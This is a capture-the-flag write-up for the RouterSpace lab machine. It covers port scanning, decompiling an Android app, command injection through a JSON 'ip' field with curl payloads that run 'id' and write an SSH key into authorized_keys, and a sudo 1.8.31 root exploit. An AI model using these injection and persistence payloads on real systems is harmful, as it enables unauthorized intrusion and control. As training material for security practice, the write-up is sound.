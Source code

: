 ```yaml
---
description: >-
  In my opinion, one of the most annoying machines just to set up and the
  exploits required are quite disappointing.
---
```


# RouterSpace

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.47 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 10:32 EDT
Nmap scan report for 10.129.227.47
Host is up (0.017s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### RouterSpace App

Port 80 reveals a page advertising an application:

<figure><img src="../../../.gitbook/assets/image (858).png" alt=""><figcaption></figcaption></figure>

The intended method is to do dynamic analysis of the machine and run the application in an emulator (which is annoying because `anbox` is not as easy to install anymore and `genymotion` doesn't seem to work with my machine).

Instead, I will be doing static analysis to solve it. First, we need to decompile it with `apktool`.

```
$ apktool d RouterSpace.apk 
$ cd RouterSpace
$ ls
AndroidManifest.xml  apktool.yml  assets  kotlin  lib  original  res  smali  unknown
```

With in the `assets` file, there's an `index.android.bundle` file. This file contains all the JS code used in the entire application, so it's really long but probably has the information I need within it.

Within it, there's this function:

{% code overflow="wrap" %}
```javascript
function _0x31d2() {
    var _0x379495 = ['EwCVL', 'ugPGw', 'Router is ', '-Bold', 'data', '30158095HXLvSs', 'post', 'eAgent', 'http://rou', '10BrHGoD', 'gray', '80%', 'applicatio', 'white', 'ck your in', 'ternet con', 'tb/api/v4/', 'Please pro', 'Image', 'XvhFJ', '2111347AIyazK', 'v/check/de', 'vide an IP', 'working fi', 'DKyDg', 'YnNsf', 'tzoEq', 'EKNxl', 'the server', 'log', 'ne!.', 'NunitoSans', 'OgZoU', 'TouchableO', '32457sfggQZ', 'nection.', '[ RESPOND ', 'center', 'createElem', '__esModule', 'per', 'mGNnc', 'then', 'catch', 'contain', 'uAiCt', 'bottom', '42740dmWhFN', 'Text', 'ButtonWrap', 'OLDvc', 'Sorry !', 'terspace.h', 'n/json', 'StyleSheet', '/router/de', 'darkgray', 'JHvFI', 'transparen', 'UWIVj', 'Please che', 'SZqEq', 'default', 'HrHYj', 'Hey !', 'monitoring', 'StatusBar', 'error', '1013605BwxVJG', '[ DEBUG ] ', 'defineProp', 'gUnlE', 'Unable to ', '25%', 'pacity', 'ButtonText', 'gKQYs', '1006000MsdmAT', 'handleSubm', 'PpdRl', 'shxxV', 'ent', 'View', 'erty', 'show', 'Formik', 'Check Stat', '0.0.0.0', '128BJBUSC', '6BAxhAU', '4584186MTHGwP', 'connet to ', 'vESlr', 'GHjuW', ' Address.', 'container', 'create', 'RouterSpac', 'viceAccess', '72dIvHGU', 'info'];
    _0x31d2 = function () {
        return _0x379495;
    };
    return _0x31d2();
}
```
{% endcode %}

This looks like a request, and it is to `http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess`. This means that we can probably access the application from the website. We can see `n/json`, which means they are probably sending JSON POST requests. We also see `0.0.0.0`, which is looks like an IP address.&#x20;

{% code overflow="wrap" %}
```bash
$ curl -X POST http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess -H 'Content-Type: application/json' -H "User-Agent: RouterSpaceAgent" -d '{"ip":"127.0.0.1"}'
"127.0.0.1\n"
```
{% endcode %}

We can test for RCE or injection, and find that RCE works.&#x20;

{% code overflow="wrap" %}
```bash
$ curl -X POST http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess -H 'Content-Type: application/json' -H "User-Agent: RouterSpaceAgent" -d '{"ip":"127.0.0.1;id"}'
"127.0.0.1\nuid=1001(paul) gid=1001(paul) groups=1001(paul)\n"
```
{% endcode %}

We can get a reverse shell from or we can put our public key into the `authorized_keys` file.&#x20;

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>$ curl -X POST http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess -H 'Content-Type: application/json' -H "User-Agent: RouterSpaceAgent" -d '{"ip":"127.0.0.1; echo ssh-rsa KEY kali@kali > /home/paul/.ssh/authorized_keys"}'
</strong>"127.0.0.1\n"
</code></pre>

Then, we can `ssh` in as `paul`.&#x20;

## Privilege Escalation

### Sudo Exploit

This machine is running an outdated version of `sudo`.&#x20;

```
paul@routerspace:~$ sudo --version
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
```

We can use this repository to exploit it:

{% embed url="https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit" %}

Transfer the files over `scp`.&#x20;

```
$ scp * paul@routerspace.htb:~
```

Then, `make` and run it to get a root shell.

<figure><img src="../../../.gitbook/assets/image (1680).png" alt=""><figcaption></figcaption></figure>
